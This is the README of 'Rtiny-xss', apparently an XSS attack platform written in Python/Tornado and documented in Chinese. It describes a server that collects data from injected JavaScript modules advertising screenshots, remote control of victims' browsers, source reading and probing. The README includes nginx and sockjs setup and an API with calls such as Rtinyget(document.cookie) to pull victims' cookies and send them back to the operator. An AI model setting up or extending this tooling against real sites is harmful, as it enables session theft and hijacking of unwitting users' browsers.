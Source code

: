 # Rtiny-xss

一个xss轮子。

### 架构
```
├── rtiny(控制器，配置文件以及函数)
  |—— ...
  |—— config.php(配置文件)
├── themes(模板与静态文件)
  |——static(静态文件)
  |——get.html(默认js模块)
  |——...
├── index.py(运行Server)
├── README.md(项目说明)
```

默认js模块 支持屏幕截屏，在线控制，源码读取，探针

### 安装与使用

- 运行环境
  - tornado 4.2
  - python 2.7
  - nginx
  - torndb
  - sockjs-tornado(https://github.com/mrjoes/sockjs-tornado)
  - supervisor(非必须，但强烈建议)
- 搭建
  - **必须使用nginx反向代理**
  
    其配置如下
  ```
  http{
  .....
   # 若支持https , 下同
   # map $http_upgrade $connection_upgrade {
	 #  default upgrade;
	 #	  '' close;
	.....
	}
   server
  {
  	listen 80;
	  server_name xxx.com;
	  #listen 443 ssl;         
	  #ssl_certificate_key /*****.key;
	  #ssl_certificate /*******.crt;
	  location / {
	  	proxy_redirect off;
	  	proxy_set_header Host $host;
	  	proxy_set_header remote-ip $remote_addr;
	  	proxy_pass http://127.0.0.1:your port;
	  	proxy_http_version 1.1;
	  	#proxy_set_header Upgrade $http_upgrade;
      #proxy_set_header Connection "upgrade";
	  }
  }
  ```
  
  - **修改sockjs-tornado**
  
  /sockjs/tornado/transports/base.py
  ```
  from sockjs.tornado import session


  class BaseTransportMixin(object):
    """Base transport.

    Implements few methods that session expects to see in each transport.
    """

    name = 'override_me_please'
    sock_headers = ''
    sock_cookie = ''
    def get_conn_info(self):
        """Return `ConnectionInfo` object from current transport"""
        BaseTransportMixin.sock_headers = self.request.headers
        BaseTransportMixin.sock_cookies = self.get_secure_cookie('username') or ''
        return session.ConnectionInfo(self.request.remote_ip,
                                      self.request.cookies,
                                      self.request.arguments,
                                      self.request.headers,
                                      self.request.path)

    def session_closed(self):
        """Called by the session, when it gets closed"""
        pass
  ```
  
  - 修改 tornado ,非必须，不修改的话添加模块代码时会影响美观。
  
  将Template类的构造函数中 这几行注释掉。
  
  ···
  if compress_whitespace is None:
5
        compress_whitespace = name.endswith(".html") or \
6
            name.endswith(".js")
  ···
  
  - API
    - module
      + 自定义参数 ```{set.*}```
      + 接收数据 ```Rtinysend.xx = xx;```
      
      若异步，请使用ajax post receive参数 到项目地址(支持json)
      + AJAX 
      ```
      ajax({
					'type': 'POST/GET',
					'url': 'xxx',
					'data': "xxx",
		  });
      ```
      + dom加载后执行 ```domready(function(){xx}） ```
      + 不用担心低版本ie浏览器不支持 json， 放心的使用它吧。
      
    - console
      + 获取数据 ```Rtinyget(document.cookie)```
      + 更新截图 ```pic(window.document.body,'')```
  
